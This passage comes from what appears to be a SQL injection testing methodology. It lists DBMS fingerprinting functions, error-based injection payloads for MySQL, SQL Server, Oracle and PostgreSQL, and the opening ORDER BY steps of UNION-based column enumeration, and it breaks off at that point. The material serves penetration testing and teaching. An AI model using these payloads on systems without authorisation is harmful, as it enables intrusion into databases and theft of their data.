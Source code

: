 #### 1.4 DBMS Fingerprinting

- Identify the backend database system:
    - Error message patterns
    - Database-specific functions:
        - MySQL: `VERSION()`, `USER()`
        - SQL Server: `@@VERSION`, `SYSTEM_USER`
        - Oracle: `v$version`, `USER`
        - PostgreSQL: `version()`, `current_user`
        - SQLite: `sqlite_version()`

### 2. Testing for Different SQLi Types

#### 2.1 Error-Based SQLi Testing

- Use payloads that deliberately cause syntax errors:
    
    ```
    ' OR '1'='1' --
    " OR "1"="1" --
    1' OR 1=1 --
    1" OR 1=1 --
    ```
    
- Test for database-specific error-based techniques:
    
    - MySQL:
        
        ```
        ' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e)) --
        ```
        
    - SQL Server:
        
        ```
        ' AND 1=CONVERT(int, (SELECT @@version)) --
        ```
        
    - Oracle:
        
        ```
        ' AND 1=CTXSYS.DRITHSX.SN(1, (SELECT banner FROM v$version WHERE rownum=1)) --
        ```
        
    - PostgreSQL:
        
        ```
        ' AND 1=cast((SELECT version()) as int) --
        ```
        

#### 2.2 UNION-Based SQLi Testing

- Determine the number of columns in the original query using `ORDER BY`:
    
    ```
    ' ORDER BY 1 --
    ' ORDER BY 2 --
    ' ORDER BY 3 --
    ```
    